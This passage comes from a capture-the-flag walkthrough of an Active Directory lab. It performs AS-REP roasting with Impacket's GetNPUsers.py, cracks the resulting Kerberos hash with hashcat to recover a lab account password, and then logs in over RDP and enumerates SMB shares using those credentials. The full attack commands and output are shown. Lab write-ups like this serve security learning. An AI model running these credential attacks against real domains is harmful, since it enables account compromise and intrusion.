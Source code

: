 We're going to try [AS-REP Roasting](kerberos.md) using [Impacket](impacket.md)'s GetNPUsers.py script. We first create an `attacktive-directory.targets` file containing the following:

```Users of interest
svc-admin
backup
```

Then, we feed this to the GetNPUsers.py script.

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -outputfile attacktive-directory.getnpusers -usersfile attacktive-directory.targets -dc-ip 10.10.177.198 spookysec.local/
```

GetNPUsers.py reports that `backup` isn't vulnerable to AS-REP roasting, but `svc-admin` *is* vulnerable and we get back a valid 
[hashcat](hashcat.md) password hash.

A quick lookup in the hashcat [Example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) wiki page shows that this is a "Kerberos 5, etype 23, AS-REP" hash (hashcat mode 18200). We'll crack this using the [provided password list](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt).

```bash
hashcat -m 18200 -O attacktive-directory.getnpusers passwordlist.txt
```

This reveals that the password for the `svc-admin` account is `management2005`.

Before moving on, we'll connect to the target as `svc-admin` using [XFreeRDP](xfreerdp.md) to get the first flag.

```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.177.198 /u:svc-admin /p:management2005
```

This flag is in a file called `user.txt` on `svc-admin`'s desktop.

## Back to the Basics

We're going to drop down and [use smbclient to enumerate potential shares](enumerate-samba-users-and-shares.md) on the target. This is where the NetBIOS domain name we discovered above comes in handy (we need to supply it with the `-L` switch).

```bash
smbclient -L THM-AD -I 10.10.177.198 -U svc-admin%management2005
```

Which gives us the following output.

```smbclient output for 10.10.177.198 as svc-admin%management2005
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to THM-AD failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
